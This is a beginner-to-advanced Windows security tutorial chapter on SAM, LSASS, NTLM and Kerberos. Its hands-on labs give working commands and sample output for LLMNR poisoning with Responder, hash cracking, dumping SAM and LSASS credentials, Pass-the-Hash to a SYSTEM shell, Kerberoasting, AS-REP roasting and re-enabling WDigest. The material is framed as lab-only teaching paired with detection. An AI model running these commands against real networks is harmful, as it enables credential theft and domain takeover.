**Level:** Beginner · **Track:** Foundations · **Read time:** 140 min

This is Chapter 3 of the Windows Internals series. Chapter 1 gave you the security model in one sentence — *your identity is a token, and permission is an ACL checked when you open something* — and Chapter 2 spent a whole chapter on the ACL half of that sentence. This chapter is about the other half: **where the token comes from in the first place.** Before Windows can hand you a token, it has to be convinced you are who you say you are. That convincing is *authentication*, and on Windows it is a surprisingly deep machine made of four moving parts you will hear named for the rest of your security career: the **SAM**, **LSASS**, **NTLM**, and **Kerberos**.

We start as slowly as possible — with what a password actually is and why Windows never stores it — and climb, layer by layer, to the level a red-teamer or detection engineer at a large tech company needs: how a hash becomes a logon, how a Kerberos ticket is minted and forged, how Mimikatz reaches into memory and walks out with your credentials, and what the defender sees when it happens. Nothing here assumes you memorised the earlier chapters; every idea is re-introduced as we reach it.

---

## Who This Chapter Is For (and the Map Ahead)

If you have ever typed a Windows password and wondered *what happens in the half-second before the desktop appears*, this chapter is the answer, in full. It is written so a complete newcomer can follow every step, but it does not stop at the newcomer level — by the end you will understand Pass-the-Hash, Kerberoasting, Golden Tickets, and DCSync well enough to both perform them in a lab and detect them from logs.

Here is the shape of the journey:



A word on scope. The offensive techniques here — dumping LSASS, Pass-the-Hash, Kerberoasting, Golden Tickets — are the daily bread of red teams and the daily nightmare of blue teams. Everything is framed for **lawful use only**: your own lab, a system you own, or an engagement with written authorization. Running any of this against infrastructure you do not have explicit permission to test is a crime in most jurisdictions. We keep the offense concrete but lab-scoped, and we always pair it with the detection that catches it.

---

## Part 1: What a Password Actually Is (Plain English)

Forget computers for a second. Imagine a members' club with a secret handshake. When you join, you agree on a handshake with the club. From then on, to get in, you do the handshake at the door. The doorman doesn't need to *remember your handshake* — he just needs a way to check that the handshake you do matches the one you agreed on.

There are two ways the club could run this:

1. **Write your handshake down** on a card behind the door. Anyone who steals the card learns your handshake. Bad.
2. **Write down a *fingerprint* of your handshake** — some transformation of it that is easy to compute forwards but impossible to reverse. When you do the handshake, the doorman fingerprints it and compares. A stolen card reveals only the fingerprint, not the handshake itself. Better.

Windows does option 2. It never stores your password. It stores a **hash** of your password — a fixed-length fingerprint produced by a one-way function. When you log on, Windows hashes what you typed and compares it to the stored hash. Match → you're in. No match → try again.

The whole of this chapter is the elaboration of two questions that fall out of that simple picture:

- **Where is the fingerprint stored, and how safe is it?** (SAM, NTDS.dit, LSASS — Parts 2–3)
- **How do you prove you know the password to a *remote* machine, without sending the password across the network?** (NTLM and Kerberos — Parts 4–6)

That second question is the deep one. Sending your password to a file server so it can check it would mean the password crosses the wire (and sits in the server's memory) every time you open a share. Both NTLM and Kerberos exist to avoid that — to let you prove knowledge of a secret *without revealing the secret*. They just do it in very different ways, and the difference is the difference between 1993 and today.

> **Memory hook** — Windows authentication is a fingerprint system, not a password vault. Almost every attack in this chapter is a way of stealing, replaying, or forging a fingerprint (a hash or a ticket) so you never need the original password at all.

---

## Part 2: Where Secrets Live — SAM, LSA Secrets, and NTDS.dit

Windows keeps credential material in a few very specific places. Knowing exactly where each one lives — and what is in it — is half of understanding both the attacks and the defences.

### The SAM database (local accounts)

**SAM** stands for **Security Account Manager**. It is the database of *local* user accounts on a single Windows machine — the accounts you'd see in `lusrmgr.msc`, like the built-in `Administrator` and `Guest`, plus any local users you create. It lives in the registry hive `HKLM\SAM`, which is backed on disk by the file:

```
C:\Windows\System32\config\SAM
```

The SAM stores, for each local account, the account's **NT hash** — the MD4 hash of the password (we'll dissect that in Part 4). The file is locked while Windows is running and is additionally encrypted with a machine-specific key called the **SysKey** (or *bootkey*), stored in the `SYSTEM` hive. So to read local hashes offline you need *both* the `SAM` and `SYSTEM` hives.

| Store | Scope | On-disk location | What it holds |
|-------|-------|------------------|---------------|
| SAM | Local accounts on this machine | `C:\Windows\System32\config\SAM` | NT hashes of local users |
| SYSTEM | Local | `C:\Windows\System32\config\SYSTEM` | SysKey/bootkey to decrypt SAM |
| SECURITY (LSA Secrets) | Local | `C:\Windows\System32\config\SECURITY` | Service account passwords, cached domain creds, machine account key |
| NTDS.dit | **Domain** (Active Directory) | `C:\Windows\NTDS\NTDS.dit` on Domain Controllers | NT hashes of **every** domain account, including `krbtgt` |

### LSA Secrets (the SECURITY hive)

The `SECURITY` hive holds **LSA Secrets** — a grab-bag of sensitive material the Local Security Authority needs to keep: passwords for services that run as a specific user, the machine account password, auto-logon credentials, and **cached domain credentials** (the salted hashes that let a laptop log a domain user on while offline — these are the "MSCache"/DCC2 hashes attackers crack). This is why dumping just the SAM is never the whole story on a domain-joined box; the SECURITY hive often holds the juicier service-account and cached-domain secrets.

### NTDS.dit (the domain crown jewels)

On a **Domain Controller**, local accounts barely matter. What matters is `NTDS.dit` — the Active Directory database. It contains the NT hash of *every* user and computer in the domain, including the single most important secret in the whole environment: the **`krbtgt`** account's hash, which is the key used to sign every Kerberos ticket. Anyone who extracts `krbtgt` can forge tickets for anyone (the Golden Ticket, Part 11). This is why compromising a DC is game over — you're not stealing one password, you're stealing the master key to the kingdom.



> **Memory hook** — SAM = *this machine's* local users. NTDS.dit = *the whole domain*, and its `krbtgt` entry is the master forging key. SECURITY hive = the secrets in between (services, cached logons, machine account).

---

## Part 3: LSASS — The Process That Guards Your Credentials

If the SAM and NTDS.dit are where secrets sleep on disk, **LSASS** is where they wake up and work. This single process is the beating heart of Windows authentication, and it is the number-one target of every credential-theft attack in the chapter. Understand LSASS and half of offensive AD makes sense immediately.

### What LSASS is

**LSASS** = **Local Security Authority Subsystem Service**, the process `lsass.exe`, running as `NT AUTHORITY\SYSTEM`. It is spawned by `wininit.exe` early in boot and lives for the life of the machine. Its jobs:

- Enforce the local security policy (who may log on, password rules, privileges).
- Handle **interactive logons** — validate the password you type against the SAM (local) or hand it to a DC (domain).
- Host the **authentication packages** (the pluggable providers): `msv1_0.dll` (NTLM), `kerberos.dll`, `wdigest.dll`, `tspkg.dll`, `livessp.dll`, etc., all coordinated behind a broker called the **SSPI** (Security Support Provider Interface).
- **Cache credential material in memory** so you don't retype your password for every network resource — this is Single Sign-On, and it is exactly the cache attackers loot.



### Why LSASS memory is a goldmine

To provide Single Sign-On, LSASS keeps, per logon session, whatever it needs to re-authenticate you silently: your **NT hash**, your **Kerberos tickets** (TGT and service tickets), and — on older or misconfigured systems where **WDigest** is enabled — even your **plaintext password**. WDigest, an HTTP-auth protocol from the Windows 2000 era, required the cleartext password in memory; it was enabled by default up to Windows 7 / Server 2008 R2. Mimikatz's famous `sekurlsa::wdigest` module simply reads it back out. Modern Windows disables WDigest by default, but attackers routinely re-enable it via a one-line registry flip:

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

After that registry change plus a fresh logon, cleartext passwords are back in LSASS. Watching for exactly this registry write is a high-value detection (Part 12).

### Protecting LSASS

Because LSASS is *the* target, Microsoft added defences:

- **LSA Protection (RunAsPPL)** — marks LSASS as a Protected Process Light so non-PPL code (including most malware and Mimikatz) can't open a handle to its memory. Enabled via `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL = 1`. Attackers counter with a signed vulnerable driver (`mimidrv`, or a BYOVD like the classic `RTCore64.sys`) to strip the protection — noisy, and itself a great detection.
- **Credential Guard** — uses virtualization-based security (VBS) to move secrets into an isolated **LSAIso** process the normal OS (and thus malware) cannot reach. This breaks classic LSASS dumping for domain creds and is the single most effective defence in this chapter.

> **Memory hook** — LSASS is the safe-deposit box that stays *open* all day so you don't keep re-entering your PIN. Every credential attack in this chapter is a way to reach into that open box (or to avoid needing to, by using what leaks out of it).

---

## Part 4: NTLM — Proving You Know the Password Without Sending It

Now the network question. You want to open `\\fileserver\share`. The file server must be convinced you know your password, but nobody wants the password itself crossing the wire. **NTLM** (NT LAN Manager) is Microsoft's original answer, dating to the early 1990s, and it is still everywhere in 2020s networks as a fallback.

### The NT hash

NTLM's stored secret is the **NT hash**: `MD4(UTF-16-LE(password))`. That's it — a plain, unsalted MD4 of the little-endian Unicode password. No salt means two users with the same password have the *same* NT hash, which is why NT hashes are trivially attacked with rainbow tables and why "was this password reused?" is answerable just by comparing hashes. You'll see an NT hash written as 32 hex characters:

```
Password:  Password123!
NT hash:   2b576acbe6bcfda7294d6bd18041b8fe
```

An older, weaker sibling — the **LM hash** — split the password into two 7-character halves, uppercased it, and DES-encrypted a constant. It's cryptographically broken and disabled by default since Windows Vista, but you'll still meet it on legacy boxes, shown as a hash pair `LM:NT`. The famous "empty LM hash" is `aad3b435b51404eeaad3b435b51404ee`.

### NTLM challenge-response (the handshake)

NTLM proves knowledge of the NT hash with a challenge-response dance. Simplified:



The key idea: the client never sends the NT hash or the password. It sends a *response* computed from the hash and the server's random challenge. Because the challenge changes every time, you can't simply replay a captured response (in theory). The server can't validate the response itself for a domain account — it relays it to a Domain Controller over the **Netlogon** secure channel, which recomputes the answer using the hash it holds in NTDS.dit.

There are two versions you must be able to tell apart, because they behave completely differently under attack:

| Property | NetNTLMv1 | NetNTLMv2 |
|----------|-----------|-----------|
| Introduced | NT 4.0 era | Windows 2000+ |
| Hash algorithm | DES over NT hash | HMAC-MD5 with client + server challenge |
| Crackability | **Catastrophic** — with a chosen challenge, reduces to DES, cracked in ~hours | Must brute-force the password; salted-ish by challenges |
| Relayable | Yes | Yes (unless signing enforced) |
| Downgrade abuse | Coerce v1 → crack instantly | — |

### The fatal flaw: the hash *is* the password

Here is the single most important sentence about NTLM: **the response is computed purely from the NT hash, and the NT hash never changes unless the password changes.** That means if you steal the NT hash — from the SAM, from LSASS, from NTDS.dit — you can compute valid responses *forever*, without ever knowing the plaintext. This is **Pass-the-Hash** (Part 10). The hash is a password-equivalent. NTLM's entire security model collapses the moment a hash leaks, and hashes leak constantly. This is the deepest reason Kerberos exists.

> **Bug Bounty Angle** — In external web work, NTLM shows up as exposed intranet endpoints (SharePoint, Exchange EWS/Autodiscover, `/rpc/`, internal IIS) that return `WWW-Authenticate: NTLM`. Capturing a NetNTLM challenge-response from an SSRF or a coerced callback (e.g. a PDF/Office external image pointing at your `Responder`) can be reported as credential exposure — and if you can relay it, as authentication bypass. Exposed NTLM auth on internet-facing hosts, plus username enumeration via NTLM response timing, are legitimate report material on programs that scope internal-facing assets.

---

## Part 5: Meet the Tools — Responder, Impacket, Mimikatz, Rubeus, Hashcat

Before the hands-on lab, meet the tools we'll lean on. Each is taught from zero the first time it appears, per the authoring rules. All are standard on Kali Linux or trivially installed there.

### Responder — the LLMNR/NBT-NS poisoner

**What it is:** a Python tool that answers Windows name-resolution broadcasts. When a Windows box fails DNS and falls back to **LLMNR** or **NBT-NS**, it *shouts on the local network* "who is `fileservr`?" (often a typo). Responder shouts back "me!", the victim tries to authenticate to Responder, and you capture its NetNTLMv2 hash.

**Install (already on Kali):**
```bash
sudo apt install responder     # if missing
```
**Core usage:**
```bash
sudo responder -I eth0 -wv
#  -I eth0   listen on this interface
#  -w        start the WPAD rogue proxy (catches browser auth too)
#  -v        verbose (show every poisoned request)
```

### Impacket — the Swiss army knife of Windows protocols

**What it is:** a Python library + a pile of ready scripts (`secretsdump.py`, `psexec.py`, `wmiexec.py`, `GetUserSPNs.py`, `GetNPUsers.py`, `ntlmrelayx.py`) that speak SMB, MSRPC, Kerberos and more. It is *the* toolkit for offensive AD from Linux.

**Install:**
```bash
pipx install impacket           # or: pip install impacket
```

### Mimikatz — the credential extractor

**What it is:** Benjamin Delpy's Windows tool that reads secrets out of LSASS memory and manipulates Kerberos tickets. It is the reference implementation of Pass-the-Hash, Pass-the-Ticket, Golden/Silver Tickets, DCSync, and more. Runs on the Windows target (as admin/SYSTEM).

**Core interactive flow:**
```
mimikatz # privilege::debug        # get SeDebugPrivilege (needed to read LSASS)
mimikatz # sekurlsa::logonpasswords # dump creds from LSASS
```

### Rubeus — the Kerberos abuse tool

**What it is:** a C# tool focused purely on Kerberos: requesting tickets, Kerberoasting, AS-REP roasting, Pass-the-Ticket, Overpass-the-Hash, ticket forging. The Windows-native counterpart to Impacket's Kerberos scripts.

### Hashcat — the cracker

**What it is:** the GPU password cracker. We feed it captured NetNTLMv2 hashes or Kerberoast tickets and a wordlist; it recovers the plaintext. Relevant modes:

| Mode | Hash type |
|------|-----------|
| `-m 1000` | NTLM (NT hash) |
| `-m 5600` | NetNTLMv2 |
| `-m 13100` | Kerberoast (RC4 TGS-REP) |
| `-m 18200` | AS-REP roast (RC4) |
| `-m 19700` | Kerberoast (AES256 TGS-REP) |

---

## Part 6: Hands-On Lab A — Capturing and Cracking a NetNTLMv2 Hash

This lab is fully reproducible in a small home lab: one Windows 10/11 client and a Kali attacker on the same LAN segment. **Only run this on a network you own.** The goal: capture a NetNTLMv2 hash via LLMNR poisoning and crack it, then Pass-the-Hash with a hash we dumped from the SAM.

### Step 1 — Start Responder on Kali

```bash
sudo responder -I eth0 -wv
```
Realistic startup output (trimmed):
```
[+] Listening for events...
[+] Servers:
    HTTP server                [ON]
    SMB server                 [ON]
    LLMNR/NBT-NS/mDNS poisoner [ON]
```

### Step 2 — Trigger name resolution on the victim

On the Windows client, a user mistypes a share path — `\\fileservr\data` (note the typo). DNS has no such name, so Windows broadcasts an LLMNR query. Responder answers. In the Responder console you see:

```
[LLMNR]  Poisoned answer sent to 192.168.56.20 for name fileservr
[SMB] NTLMv2-SSP Client   : 192.168.56.20
[SMB] NTLMv2-SSP Username : CORP\jsmith
[SMB] NTLMv2-SSP Hash     : jsmith::CORP:1122334455667788:9A5C...:0101000000...
```

That last line is a **NetNTLMv2** hash. Save it to a file `hash.txt`.

### Step 3 — Crack it with Hashcat

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
#  -m 5600   NetNTLMv2 mode
```
Realistic result line:
```
JSMITH::CORP:1122334455667788:9A5C...:0101...:Summer2026!
Session..........: hashcat
Status...........: Cracked
Recovered........: 1/1 (100.00%)
```

You now hold `CORP\jsmith : Summer2026!`. Note what happened: **no password ever crossed the wire in cleartext**, yet a mistyped path handed you a crackable credential. This is why LLMNR/NBT-NS should be disabled everywhere.

### Step 4 — Dumping the local SAM (the other source of hashes)

If instead you have admin on a box, you can read the SAM offline. From an elevated shell, save the hives and dump with Impacket:
```bash
# On the target (elevated):
reg save HKLM\SAM   sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save

# On Kali:
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
```
Realistic output:
```
[*] Target system bootKey: 0x8b56...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
jsmith:1001:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
[*] Dumping cached domain logon information (DCC2)
CORP.LOCAL/adminsvc:$DCC2$10240#adminsvc#f4e9...
```
The `2b576...` after the empty LM hash is the local Administrator's NT hash — a password-equivalent we can Pass-the-Hash with directly, no cracking required.

---

## Part 7: Pass-the-Hash and the "the Hash Is the Password" Problem

We keep saying the NT hash is a password-equivalent. Let's *use* it. **Pass-the-Hash (PtH)** authenticates over NTLM using only the NT hash — never the plaintext. Because the NTLM response is computed from the hash, having the hash is all you need.

With Impacket, using the local admin hash we dumped:
```bash
impacket-psexec -hashes :2b576acbe6bcfda7294d6bd18041b8fe Administrator@192.168.56.30
#  -hashes LM:NT    (empty LM, so just :NT)
```
Realistic output:
```
[*] Requesting shares on 192.168.56.30.....
[*] Found writable share ADMIN$
[*] Uploading file kxYtRe.exe
[*] Opening SVCManager on 192.168.56.30.....
[*] Creating service ...
Microsoft Windows [Version 10.0.19045]
C:\Windows\system32> whoami
nt authority\system
```

We got SYSTEM on a *remote* machine using nothing but a hash. The same hash works with `wmiexec.py`, `smbexec.py`, `crackmapexec`, and Mimikatz's `sekurlsa::pth`. This is the technique behind most lateral movement in real intrusions, and it is why **local admin password reuse is catastrophic**: one shared local-admin hash lets you PtH across every machine that shares it. Microsoft's **LAPS** (Local Administrator Password Solution) exists precisely to give every machine a unique, rotating local admin password so a single stolen hash opens exactly one door.

```mermaid
flowchart LR
    A[Dump NT hash<br/>from SAM/LSASS] --> B[Pass-the-Hash<br/>over NTLM]
    B --> C[SYSTEM on host 2]
    C --> D[Dump hashes on host 2]
    D --> B2[Pass-the-Hash to host 3]
    B2 --> E[Domain spread...]
    style A fill:#402
    style E fill:#204
```

> **CTF Angle** — PtH is a staple of HackTheBox and TryHackMe AD boxes. The pattern is almost always: get a foothold → `secretsdump`/`mimikatz` → grab a local or service NT hash → `psexec.py -hashes` or `evil-winrm -H <hash>` to move to the next host. Flag format is usually `HTB{...}` or a `user.txt`/`root.txt`. On PortSwigger there's no PtH, but the *concept* — a captured credential-equivalent being replayed — mirrors session-token replay, which the Web Academy drills heavily.

---

## Part 8: Kerberos — Tickets Instead of Passwords

NTLM's weakness is structural: every authentication reduces to "prove you know the hash," and the hash is forever. Kerberos, born at MIT and adopted as the *default* Windows domain auth since Windows 2000, fixes this with a fundamentally different design: **tickets**. Instead of proving yourself to every server, you prove yourself *once* to a trusted third party, which then hands you time-limited, cryptographically-sealed tickets to show to each server. Servers trust the tickets, not you.

### The cast of characters

- **KDC (Key Distribution Center)** — runs on every Domain Controller. Two logical services:
  - **AS (Authentication Service)** — verifies your identity and issues a **TGT**.
  - **TGS (Ticket Granting Service)** — trades your TGT for **service tickets**.
- **TGT (Ticket Granting Ticket)** — your "I've logged in" pass, encrypted with the **`krbtgt`** account's key so only the KDC can read it.
- **Service Ticket (TGS / ST)** — a pass for one specific service, encrypted with *that service account's* key.
- **SPN (Service Principal Name)** — the unique name of a service instance, like `MSSQLSvc/db01.corp.local:1433`. You request tickets *by SPN*.
- **Authenticator** — a small timestamp you encrypt to prove the ticket is really yours right now (defeats replay — hence Kerberos's hard dependency on synchronized clocks; more than ~5 minutes of skew and auth fails).

### The three exchanges (AS-REQ, TGS-REQ, AP-REQ)



Read that flow slowly, because *every* Kerberos attack is an abuse of one of these three exchanges:

- **Pre-authentication** in step 1 requires you to encrypt a timestamp with your own hash. If an account has pre-auth *disabled*, anyone can ask the AS for that account's AS-REP and crack it offline → **AS-REP Roasting** (Part 9).
- The **service ticket** in step 2 is encrypted with the service account's password hash. Any authenticated user can request a ticket for any SPN, then crack the ticket offline to recover the service account's password → **Kerberoasting** (Part 9).
- The **TGT** in step 1 is sealed with `krbtgt`. Steal `krbtgt` and you can forge *any* TGT → **Golden Ticket** (Part 11).
- The **service ticket** is sealed with the service account key. Steal *that* and you forge tickets for that one service → **Silver Ticket** (Part 11).

### The PAC — where Kerberos meets authorization

Sealed inside the TGT/ticket is a **PAC (Privilege Attribute Certificate)** — the list of the user's SIDs and group memberships (this is what becomes your token from Chapter 1). The KDC signs the PAC; a correctly-configured service asks the KDC to validate the signature (PAC validation). The PAC is the bridge from *authentication* (who you are) to *authorization* (what you can touch), and forging it (as in a Golden Ticket, or the old **MS14-068** bug) is how attackers grant themselves Domain Admin inside a ticket.

> **Memory hook** — NTLM: *"prove you know the secret, every time, to every server."* Kerberos: *"prove yourself once to the KDC, then wave sealed tickets at servers that never see your secret."* The tickets are the whole game — steal, roast, or forge a ticket and you win without ever touching a password.

---

## Part 9: Kerberoasting and AS-REP Roasting

Two of the highest-value, lowest-noise attacks in Active Directory both fall directly out of the Kerberos exchanges above. Neither requires admin — a single ordinary domain user is enough.

### Kerberoasting

The insight: **any authenticated user can request a service ticket for any SPN, and that ticket is encrypted with the service account's password hash.** So you ask for tickets for service accounts, take the encrypted tickets offline, and brute-force the service account's password. Service accounts often have weak, non-expiring, over-privileged passwords set years ago — perfect targets.

Find kerberoastable accounts and grab tickets with Impacket:
```bash
impacket-GetUserSPNs -request -dc-ip 192.168.56.10 CORP.LOCAL/jsmith:'Summer2026!' -outputfile roast.txt
```
Realistic output:
```
ServicePrincipalName    Name       MemberOf                    PasswordLastSet
----------------------  ---------  --------------------------  -------------------
MSSQLSvc/db01:1433      svc_sql    CN=SQLAdmins,...             2019-04-02 11:23:10
HTTP/web01              svc_web    -                           2018-11-15 09:02:44

[*] Saving ticket for svc_sql
```
`roast.txt` now holds `$krb5tgs$23$*svc_sql*...` hashes. Crack with Hashcat:
```bash
hashcat -m 13100 roast.txt /usr/share/wordlists/rockyou.txt
```
```
$krb5tgs$23$*svc_sql*CORP.LOCAL*...:Summ3r$ervice1
Status...........: Cracked
```
You now own `svc_sql` — and it's in `SQLAdmins`. From Windows, Rubeus does the same in one command:
```
Rubeus.exe kerberoast /outfile:roast.txt
```

**Why mode 23 (RC4) matters:** the crackable `$krb5tgs$23$` format uses RC4. If the domain enforces AES-only tickets, you get `$krb5tgs$18$` (mode 19700) which is far slower to crack. Attackers therefore try to *downgrade* to RC4; defenders disable RC4 in Kerberos.

### AS-REP Roasting

The insight: if an account has **"Do not require Kerberos preauthentication"** set, the AS will hand out that account's AS-REP — which contains data encrypted with the account's hash — to *anyone who asks*, no credentials needed. Crack it offline.

```bash
impacket-GetNPUsers CORP.LOCAL/ -usersfile users.txt -dc-ip 192.168.56.10 -no-pass -outputfile asrep.txt
```
```
$krb5asrep$23$svc_legacy@CORP.LOCAL:8f3c...
```
```bash
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt
```

| Attack | Needs valid creds? | Targets | Hashcat mode | Root cause |
|--------|-------------------|---------|--------------|------------|
| Kerberoasting | Yes (any user) | Accounts with an SPN | 13100 (RC4) / 19700 (AES) | Service tickets encrypted with svc password |
| AS-REP Roasting | **No** | Accounts with pre-auth disabled | 18200 | AS-REP handed out without proof of identity |

> **Bug Bounty Angle** — Pure AD Kerberos attacks rarely appear in web bug bounty scope, but the *misconfigurations* do surface in cloud/hybrid programs: an exposed LDAP or an over-permissive service account discoverable via an SSRF into an internal `ldap://` endpoint, or Azure AD Connect sync accounts. Where a program scopes internal AD (some enterprise VDPs and pentests-as-a-service do), a clean Kerberoast → Domain Admin chain is a top-severity finding. Document the SPN, the cracked password, and the privilege it grants.

> **CTF Angle** — Kerberoasting and AS-REP roasting are *the* signature moves of HackTheBox AD boxes (Forest, Sauna, Active) and countless THM rooms. The reflex: get any domain cred → `GetUserSPNs -request` and `GetNPUsers` → Hashcat 13100/18200 → new creds → escalate. On Active specifically the path is `GetADUsers` → GPP password → Kerberoast the SQL account → DA. Flags are `user.txt`/`root.txt`.

---

## Part 10: Hands-On Lab B — Mimikatz on LSASS (Pass-the-Ticket & Overpass-the-Hash)

This lab runs on a Windows domain-joined machine where you already have **local admin** (the realistic post-exploitation position). Everything here is lab-scoped; dumping LSASS on a machine you don't own is illegal.

### Step 1 — Get SeDebugPrivilege and dump LSASS

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```
Realistic (trimmed) output:
```
Authentication Id : 0 ; 515697 (00000000:0007de71)
User Name         : jsmith
Domain            : CORP
        * Username : jsmith
        * Domain   : CORP.LOCAL
        * NTLM     : 5835048ce94ad0564e29a924a03510ef
        * SHA1     : a8f2...
tspkg :
kerberos :
        * Username : jsmith
        * Domain   : CORP.LOCAL
        * Password : (null)
```
On a modern box the `Password` is `(null)` (WDigest off). We still recovered the **NT hash** and, crucially, we can extract Kerberos **tickets** from memory:
```
mimikatz # sekurlsa::tickets /export
```
This drops `.kirbi` ticket files to disk — including `jsmith`'s TGT.

### Step 2 — Pass-the-Ticket

